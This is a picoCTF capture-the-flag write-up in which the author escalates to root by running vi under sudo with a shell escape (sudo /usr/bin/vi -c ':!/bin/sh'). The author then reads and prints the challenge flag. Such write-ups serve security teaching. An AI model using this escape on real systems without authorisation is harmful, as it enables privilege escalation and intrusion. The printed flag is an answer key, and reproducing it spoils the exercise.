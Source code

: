 # Permissions

* Author: Geoffrey Njogu
* Location: https://play.picoctf.org/practice/challenge/363
* Tags: General Skills, vim

## Problem

> Can you read files in the root file? Additional details will be available after launching your challenge instance.

This challenge also comes with the hint "What permissions do you have?"

## Solution

I started by launching an instance of the challenge (Figure 1). I then proceeded to log into the system via ``ssh``, as shown below:

```
lambdacalculus-picoctf@webshell:~$ ssh -p 52131 picoplayer@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]' can't be established.
ED25519 key fingerprint is SHA256:Km7la74G7/fztU37KiXuMDlWhxowKKAxA3TjvWy1Y0o.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]' (ED25519) to the list of known hosts.
picoplayer@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.15.0-1031-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoplayer@challenge:~$ 
```

Given the tag of "vim", the hint and the challenge name of "Permissions", I figured that I would be exploiting a GTFO bin to get root privileges. I queried the GTFOBin entry on ``vim`` [1] and first wanted to see if I could run it via ``sudo``:

```
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ 
```

It seems that I can. So, I used the following command to get root:

```
picoplayer@challenge:~$ sudo vim -c ':!/bin/sh'
Sorry, user picoplayer is not allowed to execute '/usr/bin/vim -c :!/bin/sh' as root on challenge.
picoplayer@challenge:~$ sudo /usr/bin/vi -c ':!/bin/sh'

# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

I then searched for a potential flag:

```
# ls -l /root
total 0
# ls -la /root
total 12
drwx------ 1 root root   23 Mar 16 02:29 .
drwxr-xr-x 1 root root   51 Mar 16 19:37 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Mar 16 02:29 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat /root/.flag.txt
picoCTF{uS1ng_v1m_3dit0r_55878b51}
# 
```

Excellent.

## References

1. https://gtfobins.github.io/gtfobins/vim/
